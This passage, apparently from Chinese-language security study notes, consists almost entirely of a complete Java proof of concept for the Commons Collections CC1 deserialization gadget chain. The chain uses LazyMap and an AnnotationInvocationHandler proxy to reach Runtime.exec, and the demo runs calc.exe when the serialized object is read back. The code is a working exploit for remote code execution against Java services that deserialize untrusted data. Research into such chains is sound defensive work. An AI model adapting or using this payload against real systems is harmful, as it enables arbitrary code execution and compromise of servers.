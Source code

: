 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713233221047.png)



完整代码：

```java
public class CC1LazyMap {
    public static void main(String[] args) throws Exception
    {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class<?> annotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationHandlerConstructor =annotationInvocationHandlerClass.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler ProxyInvocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,lazyMap);
        Map ProxylazyMap1 = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},ProxyInvocationHandler);
//        ProxylazyMap1.entrySet();
        Object ProxylazyMap2 = annotationInvocationHandlerConstructor.newInstance(Override.class,ProxylazyMap1);
        serialize(ProxylazyMap2);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

